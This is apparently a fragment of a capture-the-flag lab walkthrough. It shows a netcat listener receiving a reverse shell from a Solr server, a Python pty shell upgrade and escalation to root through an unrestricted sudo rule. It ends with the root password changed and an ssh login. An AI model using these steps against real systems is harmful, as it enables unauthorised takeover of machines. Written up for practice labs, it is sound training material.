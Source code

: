 ```bash 
nc -nlvp 9090              
listening on [any] 9090 ...
connect to [10.9.1.21] from (UNKNOWN) [10.10.226.102] 44250
whoami
solr
```
![[Pasted image 20211220153717.png]]

Spawning shell 

```bash
$ python3 -c "import pty; pty.spawn('/bin/bash')"
$ export TERM=xterm
```

Root access

```bash
solr@solar:/opt/solr/server$ sudo -l
sudo -l
Matching Defaults entries for solr on solar:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User solr may run the following commands on solar:
    (ALL) NOPASSWD: ALL
solr@solar:/opt/solr/server$ su bash 
su bash 
No passwd entry for user 'bash'
solr@solar:/opt/solr/server$ sudo bash
sudo bash
root@solar:/opt/solr-8.11.0/server# passwd
passwd
Enter new UNIX password: 123.com

Retype new UNIX password: 123.com

passwd: password updated successfully
root@solar:/opt/solr-8.11.0/server# 

```

```bash 
$ ssh solr@10.10.226.102
```
